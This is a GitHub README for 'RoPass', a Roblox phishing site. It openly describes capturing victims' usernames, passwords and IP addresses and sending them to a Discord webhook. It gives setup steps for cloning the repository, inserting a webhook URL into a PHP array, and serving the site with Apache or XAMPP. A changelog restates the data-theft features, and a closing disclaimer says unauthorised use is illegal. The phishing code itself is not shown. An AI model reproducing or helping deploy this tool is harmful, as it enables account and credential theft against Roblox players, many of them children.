 <p align="center">
<img src="https://i.imgur.com/wyqErIg.png">
</p>

[![HTML5](https://img.shields.io/badge/HTML-5-orange.svg?style=flat-square)](https://developer.mozilla.org/en-US/docs/Web/Guide/HTML/HTML5)
[![CSS3](https://img.shields.io/badge/CSS-3-blue.svg?style=flat-square)](https://developer.mozilla.org/en-US/docs/Web/CSS)
[![JavaScript](https://img.shields.io/badge/JavaScript-ES6-yellow.svg?style=flat-square)](https://developer.mozilla.org/en-US/docs/Web/JavaScript)
[![PHP](https://img.shields.io/badge/PHP-7.4-blue.svg?style=flat-square)](https://www.php.net/)
![OS](https://img.shields.io/badge/Tested%20On-Windows%20|%20Android-yellowgreen.svg?style=flat-square)
[![License](https://img.shields.io/badge/License-MIT-blue.svg?style=flat-square)](https://github.com/yourusername/phishing-site/blob/main/LICENSE)

## 🌐 RoPass
RoPass website is a Roblox phishing site designed to collect informations from users, including their usernames, passwords, and IP addresses, which are then sent to a Discord webhook.

RoPass utilizes the same login solution as my previous project, RoFish: [RoFish GitHub Repository](https://github.com/dtbsisco/RoFish).

## ⭐ Features
- **Data Collection**: Captures usernames, passwords, and IP addresses from users.
- **Discord Webhook**: Sends collected data directly to a specified Discord webhook.

## 💻 Installation

1. **Clone the Repository**: Download the source code by cloning the repository:
   ```bash
   git clone https://github.com/yourusername/rofish.git
   cd rofish

3. **Modify the Discord Webhook**: Open the PHP file where the webhook is defined. Find the following line and replace `YOUR_WEBHOOK_URL_HERE` with your actual Discord webhook URL:
   ```bash
       $webhookUrls = [
        'https://discord.com/api/webhooks/YOUR_WEBHOOK_URL_HERE',  // Replace with your actual Discord webhook URL
        // Add more webhook URLs here if you want
        // 'https://discord.com/api/webhooks/another_webhook_url', // Example additional webhook
    ];

2. **Start Apache**: Before opening the website, ensure that Apache is running.
   - On Windows, you can use [XAMPP](https://www.apachefriends.org/).
   - On Linux, run `sudo systemctl start apache2` or `service apache2 start` in the terminal to start the built-in Apache server.
   - Note: Need to configure the directory as necessary.

3. **Open the Website**: After Apache is running, open the `index.html` file in a browser.

4. **Requirements**: There are no additional requirements. The website uses native HTML, CSS, and JavaScript. Ensure you have an active internet connection for third-party resources like FontAwesome and jQuery.

## 📌 Screenshot
![Discord](https://i.imgur.com/wVKsErv.png)
![Showcase](https://i.imgur.com/ngO5Z7u.png)

## 📜 Changelog

### [1.0.0] - 2024-10-19
- Release of the Roblox phishing site.
- Implemented data collection for usernames, passwords, and IP addresses.
- Integrated Discord webhook for data transmission.
- Utilized the same login solution as the [RoFish](https://github.com/dtbsisco/RoFish) project.

## ❗ Disclaimer
The use of RoPass to attack targets without prior mutual consent is strictly illegal and can result in severe legal consequences. It is the responsibility of the end user to ensure compliance with all applicable local, state, and federal laws regarding unauthorized access and cyber activities. Users must understand that any violation of these laws can lead to significant penalties, including fines and imprisonment.

The developers of RoPass disclaim any liability for misuse or damage caused by this program. By using RoPass, you acknowledge that you are fully responsible for your actions and the consequences that may arise from them. We strongly encourage users to act ethically and responsibly, always seeking proper authorization before attempting to access or compromise any systems or data.

## 📜 License
RoPass is licensed under the [MIT License](https://github.com/dtbsisco/RoPass/blob/main/LICENSE).
